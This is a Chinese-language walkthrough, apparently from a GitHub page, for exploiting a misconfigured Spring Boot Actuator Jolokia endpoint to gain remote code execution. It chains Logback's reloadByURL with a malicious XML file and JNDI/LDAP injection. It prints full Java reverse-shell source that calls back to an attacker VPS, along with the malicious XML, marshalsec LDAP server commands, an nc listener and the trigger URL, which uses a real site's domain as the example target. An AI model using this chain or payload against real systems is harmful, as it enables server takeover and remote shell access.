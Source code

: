 # Spring Boot Actuator jolokia 配置不当导致的rce漏洞

## 一、漏洞简介

### 利用条件：

* 目标网站存在 /jolokia 或 /actuator/jolokia 接口

* 目标使用了 jolokia-core 依赖（版本要求暂未知）并且环境中存在相关 MBean

* 目标可以请求攻击者的 HTTP 服务器（请求可出外网）

* ldap 注入可能会受目标 JDK 版本影响，jdk < 6u201/7u191/8u182/11.0.1

### 二、漏洞影响

### 三、复现过程

**漏洞原理**

* 直接访问可触发漏洞的 URL，相当于通过 jolokia 调用 ch.qos.logback.classic.jmx.JMXConfigurator 类的 reloadByURL 方法
* 目标机器请求外部日志配置文件 URL 地址，获得恶意 xml 文件内容
* 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
* xml 文件中利用 logback 依赖的 insertFormJNDI 标签，设置了外部 JNDI 服务器地址
* 目标机器请求恶意 JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

漏洞复现

**步骤一：查看已存在的 MBeans**

访问 /jolokia/list 接口，查看是否存在 ch.qos.logback.classic.jmx.JMXConfigurator 和 reloadByURL 关键词。

![](images/2020_06_13/15920615808728.png)


![](images/2020_06_13/15920615851495.png)


步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）


```bash
使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

在根目录放置以 xml 结尾的 ian.xml 文件，内容如下：


```xml
<configuration>
  <insertFromJNDI env-entry-name="ldap://your-vps-ip:1389/JNDIObject" as="appName" />
</configuration>
```

步骤三：准备要执行的 Java 代码

使用兼容低版本 jdk 的方式编译：


```java
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 JNDIObject.class 文件拷贝到刚刚用py开启的网站根目录。

```
JNDIObject.java //请自行修改代码中反弹shell的ip和端口
```


```java
/**
 *  javac -source 1.5 -target 1.5 JNDIObject.java
 *
 *  Build By LandGrey
 * */

import java.io.File;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class JNDIObject {
    static {
        try{
            String ip = "your-vps-ip";
            String port = "443";
            String py_path = null;
            String[] cmd;
            if (!System.getProperty("os.name").toLowerCase().contains("windows")) {
                String[] py_envs = new String[]{"/bin/python", "/bin/python3", "/usr/bin/python", "/usr/bin/python3", "/usr/local/bin/python", "/usr/local/bin/python3"};
                for(int i = 0; i < py_envs.length; ++i) {
                    String py = py_envs[i];
                    if ((new File(py)).exists()) {
                        py_path = py;
                        break;
                    }
                }
                if (py_path != null) {
                    if ((new File("/bin/bash")).exists()) {
                        cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/bash\")"};
                    } else {
                        cmd = new String[]{py_path, "-c", "import pty;pty.spawn(\"/bin/sh\")"};
                    }
                } else {
                    if ((new File("/bin/bash")).exists()) {
                        cmd = new String[]{"/bin/bash"};
                    } else {
                        cmd = new String[]{"/bin/sh"};
                    }
                }
            } else {
                cmd = new String[]{"cmd.exe"};
            }
            Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();
            Socket s = new Socket(ip, Integer.parseInt(port));
            InputStream pi = p.getInputStream();
            InputStream pe = p.getErrorStream();
            InputStream si = s.getInputStream();
            OutputStream po = p.getOutputStream();
            OutputStream so = s.getOutputStream();
            while(!s.isClosed()) {
                while(pi.available() > 0) {
                    so.write(pi.read());
                }
                while(pe.available() > 0) {
                    so.write(pe.read());
                }
                while(si.available() > 0) {
                    po.write(si.read());
                }
                so.flush();
                po.flush();
                Thread.sleep(50L);
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                }
            }
            p.destroy();
            s.close();
        }catch (Throwable e){
            e.printStackTrace();
        }
    }
}
```

![](images/2020_06_13/15920616414347.png)


步骤四：架设恶意 ldap 服务

下载 marshalsec ，使用下面命令架设对应的 ldap 服务：


```bash
https://github.com/ianxtianxt/marshalsec
```

ps:我这里发的是源码，需要用mvn编译marshalsec


```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

步骤五：监听反弹 shell 的端口


```bash
nc -lvvp 你上一步代码里设置的端口
```

步骤六：从外部 URL 地址加载日志配置文件

如果目标成功请求了ian.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：


```bash
https://www.baidu.com/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/your-vps-ip!/ian.xml
```

服务器请求日志

![](images/2020_06_13/15920617026638.png)


![](images/2020_06_13/15920617060582.png)
